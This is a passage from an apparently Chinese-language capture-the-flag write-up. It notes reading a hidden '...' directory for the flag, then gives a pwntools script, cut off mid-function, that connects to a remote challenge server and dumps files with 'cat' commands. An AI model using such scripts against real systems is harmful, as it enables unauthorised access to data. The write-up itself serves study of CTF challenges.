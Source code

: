 这里可以使用 `cat ...` 命令测试出隐藏的 `...` 目录，再通过 `cat .../.*` 获取最终的 flag。



## 完整 exp

### dump.py

```python
#!/usr/bin/python
from pwn import *
context.log_level = 'debug'

p = remote('123.57.131.167', 22457)

def dump_city():
    p.sendline("cat city")
    res1 = p.recv(0x1000)
    res2 = p.recv(0x8e8)
    with open("city", "wb") as f:
        f.write(res1)
        f.write(res2)

def dump_hotel():
    p.sendline("cat hotel")
    res = p.recv(0x5b4)
    res1 = p.recv(0x1000)
    res2 = p.recv(0x31c)
    with open("hotel", "wb") as f:
        f.write(res)
        f.write(res1)
        f.write(res2)

def dump_snow():
    p.sendline("cat snow")
    res = p.recv(0x5b4)
    res1 = p.recv(0x1000)
    res2 = p.recv(0x32c)
    with open("snow", "wb") as f:
        f.write(res)
        f.write(res1)
        f.write(res2)

def dump_world():
    p.sendline("cat world")
    res = p.recv(0x5b4)
    res1 = p.recv(0x1000)
    res2 = p.recv(0x1000)
    res3 = p.recv(0x36c)
    with open("world", "wb") as f:
        f.write(res)
        f.write(res1)
        f.write(res2)
        f.write(res3)

def dump_home():
    p.sendline("cat home")
    res = p.recv(0x5b4)
    res1 = p.recv(0x1000)
    res2 = p.recv(0x1000)
    res3 = p.recv(0x34c)
    with open("home", "wb") as f:
        f.write(res)
        f.write(res1)
```